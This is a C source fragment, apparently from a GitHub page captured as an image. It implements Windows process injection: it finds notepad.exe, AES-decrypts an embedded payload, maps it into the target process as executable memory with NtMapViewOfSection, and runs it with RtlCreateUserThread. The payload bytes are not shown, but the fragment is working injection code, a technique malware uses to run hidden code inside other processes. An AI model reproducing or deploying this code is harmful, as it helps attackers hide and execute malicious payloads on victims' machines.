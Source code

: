 ```C

    // throw the payload into the section
    memcpy(pLocalView, payload, payload_len);

    // create remote section view (target process)
    pNtMapViewOfSection(hSection, hProc, &pRemoteView, NULL, NULL, NULL, (SIZE_T *)&payload_len, ViewUnmap, NULL, PAGE_EXECUTE_READ);

    // printf("wait: pload = %p ; rview = %p ; lview = %p\n", payload, pRemoteView, pLocalView);
    // getchar();

    // execute the payload
    RtlCreateUserThread_t pRtlCreateUserThread = (RtlCreateUserThread_t)GetProcAddress(GetModuleHandle("NTDLL.DLL"), "RtlCreateUserThread");
    if (pRtlCreateUserThread == NULL)
        return -2;
    pRtlCreateUserThread(hProc, NULL, FALSE, 0, 0, 0, pRemoteView, 0, &hThread, &cid);
    if (hThread != NULL)
    {
        WaitForSingleObject(hThread, 500);
        CloseHandle(hThread);
        return 0;
    }
    return -1;
}

int main(void)
{

    int pid = 0;
    HANDLE hProc = NULL;

    pid = FindTarget("notepad.exe");

    if (pid)
    {
        printf("Notepad.exe PID = %d\n", pid);

        // try to open target process
        hProc = OpenProcess(PROCESS_CREATE_THREAD | PROCESS_QUERY_INFORMATION |
                                PROCESS_VM_OPERATION | PROCESS_VM_READ | PROCESS_VM_WRITE,
                            FALSE, (DWORD)pid);

        if (hProc != NULL)
        {
            // Decrypt and inject payload
            AESDecrypt((char *)payload, payload_len, (char *)key, sizeof(key));
            InjectVIEW(hProc, payload, payload_len);
            CloseHandle(hProc);
        }
    }
    return 0;
}
```
